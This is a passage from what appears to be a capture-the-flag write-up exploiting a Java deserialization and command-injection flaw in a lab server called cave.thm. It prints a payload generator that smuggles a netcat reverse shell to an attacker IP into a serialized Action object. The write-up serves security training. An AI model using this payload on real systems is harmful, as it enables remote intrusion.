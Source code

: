     #!/bin/bash
    javac -cp ".:commons-io-2.7.jar" RPG.java
    java -cp ".:commons-io-2.7.jar" RPG

## 5. Java Deserialization and Remote Code Execution (RCE)

The RPG.java source code revealed a critical Java Deserialization vulnerability. The application deserializes an Action object from user-controlled input. The Action class's action() method then executes a shell command using Runtime.getRuntime().exec(), which is vulnerable to command injection through the this.command field.

The strategy was to craft a malicious Action object with a reverse shell payload in its command field, serialize it to Base64, and send it to the action.php endpoint via the custom cave.thm URL on port 3333.

Modified RPG.java to Generate Payload:

To generate the serialized payload, a temporary RPG.java file was created and compiled locally. This temporary file was only used for generating the payload, not for running the server.

    import java.util.*;
    import java.io.*;
    import java.io.IOException;
    import java.io.InputStream;
    import java.net.ServerSocket;
    import java.net.Socket;
    import java.net.URL;
    import java.net.URLConnection;
    import java.util.Scanner;
    import java.util.logging.Level;
    import java.util.logging.Logger;
    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.io.Serializable;
    import java.util.Base64;
    
    
    public class RPG {
    
        private static final int port = 3333;
        private static Socket connectionSocket;
    
        private static InputStream is;
        private static OutputStream os;
    
        private static Scanner scanner;
        private static PrintWriter serverPrintOut;
        public static void main(String[] args) {
            try{
                // Reverse shell payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f
                // Replace <ATTACKER_IP> with your IP (e.g., 10.8.19.103)
                // Replace <ATTACKER_PORT> with your chosen port (e.g., 1234)
                String str = Serialize.toString( new Action("abc","trying\";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.19.103 1234 >/tmp/f;echo \"") );
                System.out.println( "abc : " + str );
            }catch(Exception e){
                System.out.println("aa");
            }
        }
    }
    